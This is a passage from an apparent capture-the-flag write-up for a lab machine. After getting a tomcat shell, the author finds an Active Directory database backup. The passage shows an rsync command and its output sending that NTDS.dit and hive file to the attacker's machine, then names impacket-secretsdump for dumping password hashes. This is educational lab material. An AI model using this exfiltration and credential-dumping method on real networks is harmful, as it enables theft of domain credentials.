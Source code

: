 ![Shell.war](./resources/181a93f4ac9c43cc95f3c192d147da81.png)

Woot, we've got a shell as `tomcat` and we can look around the box further.

## Privilege Escalation

Sitting in `tomcat`'s home directory in `to_archive/pentest_data` we find a backup of the Windows Active Directory from presumably _something_ on the network. This is juicy and we can possibly extract user credentials from it.

I needed a way to transer the files over (~40MB in total) and `rsync` seemed to fit the bill.

I setup `/etc/rsyncd.conf` and then setup an `rsync` listener daemon on my attacker machine: `sudo rsync --daemon`.

The I used rsync on the victim machine to transfer the files back to my attack vm:

```shell
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ rsync -raAv --progress=info2 $PWD rsync://10.10.14.4:32001/files
sending incremental file list

pentest_data/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit      
     16,793,600 100%    2.20MB/s    0:00:07 (xfr#1, to-chk=1/3)
pentest_data/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
     12,189,696 100%    5.18MB/s    0:00:02 (xfr#2, to-chk=0/3)

sent 28,990,695 bytes  received 168 bytes  2,761,034.57 bytes/sec
```

Now that we have the backup we can use `impacket-secretsdump` to dump the hashes:
